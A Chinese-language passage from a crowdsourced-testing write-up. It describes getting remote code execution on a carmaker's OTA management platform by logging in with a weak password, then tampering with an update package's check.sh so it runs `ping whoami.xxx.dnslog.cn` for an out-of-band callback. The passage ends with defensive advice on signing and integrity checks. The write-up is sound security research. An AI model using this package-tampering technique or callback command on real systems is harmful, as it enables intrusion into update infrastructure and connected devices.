​在某次众测中，先用弱口令进入到某大型车企的OTA管理后台中，先看一眼功能，有版本管理和升级记录



其中版本管理可以创建新版本，创建新版本需要上传一个OTA文件，上传完成后点击发布版本就会自动执行OTA升级。因为平台中有之前建立的版本，我们先把之前建立的版本中的OTA文件下载下来研究一下。  
对OTA文件进行逆向分析：

OTA文件的目录结构大概是这样的：

```
ota/
├── README.md
├── backup/
│   └── .gitkeep                # 备份目录
├── logs/
│   └── .gitkeep                # 日志目录
├── manifest.yaml               # 升级清单
├── ota.sh                      # OTA 主入口脚本
├── roolback.sh                 # 回滚脚本
├── port.py                     # 端口检查脚本
├── update_etcd_nginx.py        # etcd + nginx 更新脚本
├── upgrade_etcd.py             # etcd 升级
├── upgrade_nginx.py            # nginx 升级
├── resources/
│   ├── etcd/
│   │   ├── etcd_data.json
│   │   └── images_config.json
│   ├── images.json
│   ├── xxx_venv.zip          # Python 虚拟环境
│   ├── mysql/schema/*.sql      # 数据库升级 SQL
│   ├── nginx/
│   │   ├── nginx.conf
│   │   └── sites-enabled/*
│   ├── sdks/*.whl              # Python SDK 包
│   ├── services/
│   │   ├── services.yml
│   │   ├── admin/v1.3.0/init.sql
│   │   ├── backtest/v1.1.0/init.sql
│   │   └── dataservice/v1.2.0/init.sql
│   └── models/…                # 模型资源

```

ota.sh是整体升级入口脚本，负责串联各个子步骤，我们来看一下ota.sh

```
# 配置
export LIANSHAN_DOMAIN="xxx.com"
export LIANSHAN_API_URL="xxx.com/xxx/api/openapi.json"
# 脚本配置
export ETCDCTL_API=3
export version_list='v1.1.0;v1.2.0;v1.3.0;v1.3.1;v1.4.0;v1.5.0;v1.6.0'
# python 虚拟环境配置
VENV_PATH="/home/ubuntu/xxx_venv"
PYTHON="$VENV_PATH/bin/python3"
# 日志目录配置
# 设置日志目录
LOG_DIR="./logs/$(date +%Y-%m-%d_%H:%M:%S)"
if [[ "$LOG_DIR" != /* ]]; then
    LOG_DIR="$(pwd)/$LOG_DIR"
fi
mkdir -p "$LOG_DIR"
set -o pipefail
# bash ./scripts/check.sh "$device_type" 2>&1 | tee -a "$STAGE1_LOG" || exit 1
MAIN_LOG="$LOG_DIR/main.log"
CHECK_LOG="$LOG_DIR/check.log"
BACKUP_LOG="$LOG_DIR/backup.log"
ETCD_LOG="$LOG_DIR/etcd.log"
SERVICES_LOG="$LOG_DIR/services.log"
TEST_LOG="$LOG_DIR/test.log"
MODEL_LOG="$LOG_DIR/model.log"
IMAGES_LOG="$LOG_DIR/images.log"
exec > >(tee -a "$MAIN_LOG")
exec 2>&1

# 参数收集
while [[ "$#" -gt 0 ]]; do
  case $1 in
    --device_type|-d) device_type="$2"; shift ;;
    --registry|-r) registry="$2"; shift ;;
    --supplier|-s) supplier="$2"; shift ;;
    --admin_ip|-a) admin_ip="$2"; shift ;;
    *) echo "未知参数: $1"; exit 1 ;;
  esac
  shift
done
# 验证必需参数
# device_type: [ADMIN WORKSTATION AIBRAIN]
if [ -z "$device_type" ]; then
  echo "错误: 需要指定设备类型 (--device-type)"
  echo "用法: $0 --device_type=<device-type> --registry=<registry>"
  exit 1
fi
if [ -z "$registry" ]; then
  echo "错误: 需要指定 registry 参数 (--registry)"
  echo "用法: $0 --device_type=<device-type> --registry=<registry>"
  exit 1
fi

# === 新增调试信息 ===
echo "====== 环境快照 ======"
echo "当前用户: $(whoami)"
echo "网络配置:"
ifconfig | head -n 10  # 限制输出行数
echo "======================"
# === 结束新增 ===

# OTA 条件检查 && 初始化 py 环境
bash ./scripts/check.sh "$device_type" 2>&1 | tee -a "$CHECK_LOG" || exit 1

IFS=';' read -ra versions <<< "$version_list"
last_version=${versions[${#versions[@]}-1]}
echo "最新版本: $last_version"

bash ./scripts/backup.sh 2>&1 | tee -a "$BACKUP_LOG" || exit 1

# etcd nginx 更新
source /home/ubuntu/xxx_venv/bin/activate 2>&1 | tee -a "$ETCD_LOG" || exit 1
$PYTHON ./utils/etcd/import_etcd_data.py 127.0.0.1:2379 ./resources/etcd/etcd_data.json 2>&1 | tee -a "$ETCD_LOG" || exit 1
export ETCDCTL_API=3
etcdctl --endpoints=http://127.0.0.1:2379 put /cluster/admin/ip "$admin_ip" 2>&1 | tee -a "$ETCD_LOG" || exit 1
# cp -r ./resources/nginx/* /etc/nginx 2>&1 | tee -a "$ETCD_LOG" || exit 1
# TODO 依据设备管理动态更新
# $PYTHON ./update_etcd_nginx.py ${supplier} 2>&1 | tee -a "$ETCD_LOG" || exit 1
# systemctl reload nginx 2>&1 | tee -a "$ETCD_LOG" || exit 1

# 服务更新 && sql
bash ./scripts/install.sh $device_type 2>&1 | tee -a "$SERVICES_LOG" || exit 1

bash ./scripts/test.sh 2>&1 | tee -a "$TEST_LOG" || exit 1

# 模型更新
MODEL_DIR="./resources/models/${supplier}"
if [ -d "$MODEL_DIR" ]; then
    source /home/ubuntu/xxx_venv/bin/activate 2>&1 | tee -a "$MODEL_LOG" || exit 1
    cd "$MODEL_DIR" || exit 1
    $PYTHON ../../../utils/models/import_models.py $last_version 2>&1 | tee -a "$MODEL_LOG"
    echo "模型更新完成" | tee -a "$MODEL_LOG"
    cd - || exit 1
else
    echo "警告：模型目录不存在: $MODEL_DIR，跳过模型更新" | tee -a "$MODEL_LOG"
fi
# 导入 sdk 包
if [ "$device_type" == "ADMIN" ]; then
  bash ./utils/upload_sdk.sh ./resources/sdks 2>&1 | tee -a "$IMAGES_LOG" || exit 1
fi
bash ./utils/extra_update/update_airflow-sche.sh ${admin_ip} 2>&1 | tee -a "$IMAGES_LOG" || exit 1
echo "更新完成，开始清理环境..."
bash ./scripts/cleanup.sh || exit 1
exit 0
```

可以看到这个shell脚本先进行环境变量配置、日志配置、参数收集，然后调用check.sh进行OTA环境的检查，然后备份完成后依次进行一系列更新操作。  
那立即思路打开，那我们能不能在OTA文件中添加bash命令，然后让平台在发布版本时加载OTA文件，从而达到RCE的效果？有了思路以后立马执行，我们在最先执行的检查更新环境的check.sh中添加以下命令，在ping后面添加-c 3是为了设置只发送三次ICMP包，防止堵塞造成OTA升级失败

ping -c 3 `whoami`.xxx.dnslog.cn



我们新建版本，上传OTA包，然后发布版本，静静等待系统热加载OTA包后自动执行命令。





最后dnslog成功收到命令回显：



# 四、**总结**

通过上面三个异曲同工的RCE案例说明，**系统内置功能一旦缺乏安全约束，就可能成为攻击面**。这类攻击的风险在于：

**1.****隐蔽性强** —— 攻击者并未利用显式漏洞，而是借助正常业务逻辑，往往不容易被安全设备拦截；

**2. 持久性高** —— 定时任务可周期性触发命令，OTA 、热加载植入代码则随版本更新长期存在；

**3.****影响范围广** —— 一旦被利用，可能导致整个业务环境下的主机或设备批量沦陷。

针对这些风险，可以从以下几个方面进行防御：

**·****输入与配置校验**：定时任务的命令执行应限制为白名单动作，禁止拼接任意系统命令；

**· 完整性与签名校验**：OTA 文件和热加载补丁必须通过数字签名或哈希验证，杜绝被篡改的更新包被加载；

**·****最小化权限**：任务调度与更新进程应运行在低权限账户下，避免一旦被利用就获得系统级控制权；

**·****监控与审计**：对任务配置、更新文件的变更进行日志记录和异常检测，尽早发现可疑操作。

从整体来看，**便捷功能与安全性是一对天然的矛盾**。如果系统只考虑易用性而忽视防护措施，就极易被攻击者“借船出海”，最终演变为远程代码执行的通路。
